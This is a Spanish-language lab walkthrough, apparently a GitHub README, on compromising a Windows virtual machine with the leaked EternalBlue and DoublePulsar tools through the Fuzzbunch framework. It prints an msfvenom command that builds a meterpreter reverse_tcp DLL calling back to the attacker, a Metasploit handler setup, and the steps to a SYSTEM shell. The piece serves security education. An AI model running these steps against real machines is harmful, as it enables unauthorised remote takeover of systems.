 # Explotando Eternalblue + Doublepulsar by Shadow Brokers

[FUENTE ORIGINAL](https://www.securityartwork.es/2017/04/21/shadow-brokers-explotando-eternalblue-doublepulsar/)

Hace no mucho tiempo Shadow Brokers había liberado una nueva hornada de exploits de la NSA. Por si esto fuera poco, en el github donde están los exploits también hay información sobre como atacar a los sistemas bancarios.

La gran mayoría de los exploits publicados hacen que comprometer un sistema Windows sea cosa de niños y casi como vemos en las películas, puesto que ente ellos se encuentran varios 0-day (ahora ya parcheados por Microsoft) que atacan al protocolo SMB en todas sus versiones.

De todos los exploits disponibles, el que más ha llamado la atención a la comunidad ha sido el combo del llamado Eternalblue + Doublepulsar. En este post vamos a explicar cómo desplegar un entorno de pruebas donde poder probar los exploits.

(N.d.E.: Sobra decir que la información se proporciona a título informativo y didáctico, con objeto de colaborar a mejorar el conocimiento de los técnicos en ciberseguridad. Los cibercriminales no necesitan que nadie les enseñe cómo utilizar los exploits, y a aquellos incautos scriptkiddies a los que se les ocurra jugar a ciberdelincuentes, en fin, mucha suerte en los juzgados).

Necesitaremos:

- Máquina Virtual Windows atacante.
- Maquina Vitrual Windows víctima.
- Equipo con Linux.

Una vez desplegadas las máquinas virtuales de Windows, el primer paso es preparar una de ellas como la atacante. En esta debemos satisfacer una serie de requisitos para poder utilizar el framework Fuzzbunch, que es desde donde lanzaremos los exploits. Para ello se debe descargar el repositorio del git donde se han publicado los exploits y herramientas.

      $ git clone  https://github.com/x0rz/EQGRP_Lost_in_Translation


Una vez clonado el repositorio en nuestro equipo, habrá que acceder al directorio Windows que está dentro de EQGRP_Lost_in_Translation y crear la carpeta listeningposts. Si no hacemos esto, al intentar ejecutar Fuzzbunch nos saltará un error avisando de que no encuentra el directorio.

Para poder ejecutar el framework correctamente y sin ningún error se necesita de una versión antigua de Python y de Pywin32:

- Python 2.6.6 de 32bits (se ha probado con Python 2.7 y no funciona).
- PyWin32-221 para Python 2.6.6.
- Jre-6u15-windows-i-586.

Una vez esté todo instalado vamos a pasar a la acción. Aquí utilizaremos powershell pero también se puede hacer mediante cmd.

## Uso del Framework Fuzzbunch

Desde el directorio EQGRP_Lost_in_Translation/windows ejecutamos Python fb.py para acceder al framework, e introducimos los siguientes parámetros:

- Default Default target IP Addres [] : IP de la víctima.
- Dafault Callback Addres [] : IP de nuestra máquina Windows.
- Use redirection[yes] : Establecer a ‘no’.
- Base Log directory [D:\logs] : Establecer la ruta para almacenar los logs.

Acto seguido hay que crear un proyecto. Una vez realizados estos pasos, veremos en el prompt fb>

<p align="center">

<img src="imagenes/prompt_1.png" title="Ilustración 1 Terminal del framework
" >
<div align="center">Ilustración 1 Terminal del framework
.</div>

</p>
Ilustración 1 Terminal del framework

Para visualizar qué exploits hay disponibles podemos teclear **Show Exploits**:

<p align="center">

<img src="imagenes/prompt_2.png" title="Ilustración 2 Exploits disponibles

" >
<div align="center">Ilustración 2 Exploits disponibles

.</div>

</p>

Como se ha comentado anteriormente, en este post se va a explicar Eternalblue (auque no salga en la lista, está disponible) junto con Doublepulsar. Muy por encima, Eternalblue se encarga de crear un backdoor y Doublepulsar inyecta una dll en el proceso del sistema que queramos.

## Eternalblue

Para hacer uso de Eternalblue hay que teclear use Eternalblue y acto seguido introducir la información solicitada por pantalla:

<p align="center">

<img src="imagenes/prompt_3.jpg" title="Ilustración 3 Configurando Eternalblue" >
<div align="center">Ilustración 3 Configurando Eternalblue

.</div>

</p>

Si todo ha salido bien veremos el siguiente mensaje en el terminal:

<p align="center">

<img src="imagenes/prompt_4.png" title="Ilustración 4 Ejecución terminada con éxito" >
<div align="center">Ilustración 4 Ejecución terminada con éxito

.</div>

</p>

## Doublepulsar

Con la backdor creada con Eternalblue, el próximo paso a realizar es inyectar una dll en un proceso del sistema comprometido haciendo uso de Doublepulsar.

Para generar la dll podemos hacer uso de msfvenom:

    $ msfvenom -a x64 -p windows/meterpreter/reverse_tcp lhost=IP lport=PUERTO -f dll -o raccoon64V2.dll

Y desde metasploit dejar un handler esperando a recibir una conexión desde la máquina comprometida:

    use exploit/multi/handler
    set payload windows/x64/meterpreter/reverse_tcp
    [..]

Volviendo a Doublepulsar, como en el proceso anterior hay que introducir la información que va apareciendo en el terminal:

<p align="center">

<img src="imagenes/prompt_5.png" title="Ilustración 5 Configuración Doublepulsar" >
<div align="center">Ilustración 5 Configuración Doublepulsar
.</div>

</p>

Si lo hemos hecho todo bien, tendremos en nuestro equipo local un meterpreter con privilegios SYSTEM sobre la máquina virtual víctima. **Con unos sencillos pasos y un par de clicks hemos llegado a comprometer un equipo conociendo solo su dirección IP**.

<p align="center">

<img src="imagenes/prompt_6.jpg" title="Ilustración 6 Sesión de meterpreter" >
<div align="center">Ilustración 6 Sesión de meterpreter.</div>

</p>

Por último y no menos importante, una vez tengamos la conexión con el meterpreter deberemos volver a ejecutar Doublepulsar y seleccionar la opción:

    4) Uninstall           Remove's backdoor from system

Para eliminar la backdoor, puesto que ya no la necesitamos.

<p align="center">

<img src="imagenes/prompt_7.png" title="Ilustración 7 Eliminación de la backdoor" >
<div align="center">Ilustración 7 Eliminación de la backdoor
</div>

</p>

Como se ha podido observar, resulta alarmante la facilidad con la que se consigue comprometer un sistema Windows haciendo uso de estos exploits.

En estos momentos creo que todo el mundo se estará preguntando: ¿si esto es lo que se ha publicado, que más cosas tendrán los chicos buenos de la NSA?

Agradecimientos a la pagina https://www.securityartwork.es/2017/04/21/shadow-brokers-explotando-eternalblue-doublepulsar/ por la traduccion del paper: https://www.exploit-db.com/docs/41896.pdf
